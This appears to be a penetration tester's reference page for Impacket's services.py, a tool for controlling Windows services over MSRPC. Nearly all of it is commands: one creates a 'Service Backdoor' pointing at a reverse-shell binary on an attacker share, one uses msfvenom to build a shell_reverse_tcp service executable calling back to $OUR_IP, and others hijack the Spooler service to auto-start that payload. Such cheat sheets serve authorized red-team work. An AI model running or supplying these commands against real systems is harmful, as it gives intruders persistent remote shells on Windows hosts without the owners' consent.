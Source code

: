 ```yaml
---
tags:
  - tool
---
```

# services

Interact with Windows services using the [MSRPC](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page) interface. Non-interactive.

## Capabilities

```powershell
# List available services
services.py $DOMAIN/$USER:$PASSWD@$IP list

# Create a new backdoor service
services.py $DOMAIN/$USER:$PASSWD@$IP create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\$OUR_IP\\share\\rshell-9001.exe"

# Check service configuration
services.py $DOMAIN/$USER:$PASSWD@$IP config -name 'Service Backdoor'

# Start service
services.py $DOMAIN/$USER:$PASSWD@$IP start -name 'Service Backdoor'

# Delete remaining service
services.py $DOMAIN/$USER:$PASSWD@$IP delete -name 'Service Backdoor'

# Check existing configuration
services.py $DOMAIN/$USER:$PASSWD@$IP config -name Spooler

# Modify existing service (start_type 2 sets the service to AUTO START)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$OUR_IP LPORT=$PORT -f exe-service -o shell.exe
services.py $DOMAIN/$USER:$PASSWD@$IP change -name Spooler -path "\\\\$OUR_IP\\share\\shell.exe" -start_type 2

# Start service
services.py $DOMAIN/$USER:$PASSWD@$IP start -name Spooler
```
